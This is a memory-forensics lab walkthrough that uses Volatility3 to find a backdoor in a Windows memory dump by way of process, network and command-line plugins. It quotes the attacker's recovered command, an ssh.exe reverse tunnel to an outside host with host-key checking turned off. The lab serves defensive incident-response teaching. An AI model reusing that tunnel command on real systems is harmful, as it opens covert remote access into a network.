








## Introduction to Memory Analysis Using Volatility

The information contained in a computer's volatile data (or in the RAM of the computer) can be vital to an incident responder.  We call it volatile for a reason, it will change while the computer is operation, but probably most importantly for an investigation, if we power off the computer, we will lose the data that we may need to answer certain questions.

From a host based perspective, one of the more important questions is what process is communicating with what IP address and can we get more information from that process?

Open a command prompt and change directory into the `/data/course_labs/memory-analysis-volatility` directory.  There will be two files, we will start with the 'physmem2.raw' file, this is a raw memory dump of a system that is suspected of having a backdoor running on it. The vr_nestat_enriched.zip file we will use to compare analysis techniques.

There are two versions of Volatility, version 2 and version 3.  Volatility2 is deprecated and runs on Python2.  Volatility3 is the current version and runs on Python3.

Volatility2 has more analysis plugins that Volatility3, but there could be a time in your analysis career that you want version2 for specific capabilities.  Both are installed on the course VM.  Volatility2 is the `vol.py` command and Volatility3 is the `vol` command.

We will use [Volatility3](https://volatility3.readthedocs.io/en/stable/) for this lab.


&nbsp;



&nbsp;

The first module we should run is the 'windows.info' to make sure Volatility can read the image file and that it seems to properly identify the Operating System as Windows 10.

```
vol -f physmem2.raw windows.info
```

&nbsp;



&nbsp;

Since we are investigating a potential backdoor, we should start with looking at processes and network traffic and see if we can determine if anything looks suspicious.  We will use the 'windows.plist' and 'windows.netscan' modules.  

If you have some volatility experience, you may wish to stop the step-by-step lab instructions here and see if you can identify the backdoor process and determine what technique is being used.

First use the 'windows.plist' module to output the running processes from the system we are investigating.  

```
vol -f physmem2.raw windows.pslist
```


&nbsp;



&nbsp;


Next we will run the 'windows.netscan' to investigate network connections.  The output will contain network status for processes, for example if they are listening on a port for incoming communication, or if they have an established connection and to where.

&nbsp;



&nbsp;

One problem you have likely just noticed is the output to the screen (also known as standard output, or Stdout) is less than ideal to read because the output likely overlaps the length and width of the screen.  One trick I like to use is to redirect the standard output to a text file, especially if the command takes more than a few seconds to run or if there are thousands of lines of output.

Use the up arrow key to re-rerun the last two volatility commands to match the following:

```
vol -f physmem2.raw windows.netscan > windows_netscan.txt
vol -f physmem2.raw windows.pslist > windows_pslist.txt

```

One trick to make text files that have more columns of data than will fit in your terminal window is to use the '-S' switch with the less command.  This will allow you to use the right and left arrows to scroll across the data.  View each of these files and see if you can determine what process seems to be doing something suspicious.


```
less -S windows_netscan.txt
less -S windows_pslist.txt
```

It appears that powerhshell.exe process has launched the ssh.exe process.  In most circumstances in a Windows environment this would make me suspicious unless the user was a systems administrator.

&nbsp;



&nbsp;

In the network output, we see that ssh.exe is connected to an external IP address.  This would add more suspicion to the ssh.exe process.

&nbsp;



&nbsp;

There is another network connection associated with ssh.exe that looks like it is over TCP 4444.  This port is not commonly associated with SSH, and is also suspicious.

&nbsp;



&nbsp;

How can we find more information about what happened with this memory dump?  One trick that I have used in the past is to dump out the process to file using the 'windows.memmap.Memmap' module and then use the strings utility in Linux to find interesting text.  This can be tedious, and in this case, if this is the [built in ssh.exe executable in Windows](https://learn.microsoft.com/en-us/windows-server/administration/openssh/openssh_overview), then there may not be much useful in there that we could not obtain in an easier way.

Since it appears that powershell.exe was the parent process for ssh.exe, we should use the windows.cmdline.CmdLine' module.  This will list command line activity.


```
vol -f physmem2.raw windows.cmdline.CmdLine
```

&nbsp;



&nbsp;

We see that the command executed was `ssh.exe sshtunnel@remote.digitalpirateradio.com -f -N -R 50000 -p 8415 -o StrictHostKeyChecking=no` and looks like it was the built in SSH executable.

This technique was part of an attack that came from a real world incident.  This allows the attacker on the remote system to execute commands into the compromised network.  We can assume that the connection to the 192.168.1.55 system is lateral movement and would expand our investigation to include that system.

For more information on what the switches of the command do check out this blog post https://www.blackhillsinfosec.com/ssh-dont-tell-them-i-am-not-https/

#### Additional analysis options

If you still have time left in the lab take a look at the `vr_netstat_enriched.zip` file in the same directory.  This represents output from a Velociraptor hunt using the Windows Netstat Enriched module.  See if you can find the suspicious process in less time than it would take using the same techniques with TADViewer from the previous lab.

This will likely take less time on a per host basis and illustrates the 'Cast a Wide Net' versus the in-depth analysis approach with Volatility and a single host.